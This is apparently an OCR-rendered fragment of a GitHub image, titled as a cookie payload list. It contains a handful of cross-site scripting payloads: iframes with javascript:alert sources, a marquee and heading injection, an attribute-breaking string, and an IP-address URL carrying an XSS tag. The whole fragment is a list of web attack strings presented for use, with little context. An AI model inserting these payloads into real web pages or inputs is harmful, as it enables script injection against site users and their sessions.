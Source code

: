 #### window.document.cookie Payload List :

```


i








<iframe src="javascript:alert('XsS by \nxss');"></iframe><marquee><h1>XsS by xss</h1></marquee>

"><h1><IFRAME SRC="javascript:alert('xss');"></IFRAME>">123</h1>

http://66.102.7.147/">XSS













